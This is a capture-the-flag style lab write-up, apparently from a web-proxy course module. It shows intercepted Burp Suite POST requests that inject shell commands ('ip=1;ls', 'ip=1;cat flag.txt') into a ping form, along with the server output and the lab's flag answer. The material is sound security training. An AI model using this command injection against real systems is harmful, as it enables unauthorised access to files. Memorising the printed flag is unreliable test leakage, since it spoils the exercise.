

# Section 04: Intercepting Web Requests

Module: 14. Using Web Proxies

---

## Questions & Answers

### 1. Try intercepting the ping request on the server shown above, and change the post data similarly to what we did in this section. Change the command to read 'flag.txt'

Context:
- Since the UI doesn't allow custom command injection:

- Using Burp Suite to have custom payloads:
```
POST /ping HTTP/1.1
Host: 154.57.164.69:31675
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.69:31675/
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://154.57.164.69:31675
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=1;ls
```
- Got:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.059 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.059/0.059/0.059/0.000 ms
flag.txt
index.html
node_modules
package-lock.json
public
server.js
```
- Get the flag:
```
POST /ping HTTP/1.1
Host: 154.57.164.69:31675
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.69:31675/
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://154.57.164.69:31675
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=1;cat flag.txt
```
- Result:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.049 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.049/0.049/0.049/0.000 ms
HTB{1n73rc3p73d_1n_7h3_m1ddl3}
```

**Answer:** `HTB{1n73rc3p73d_1n_7h3_m1ddl3}`

---

[Back to Module Index](./README.md)
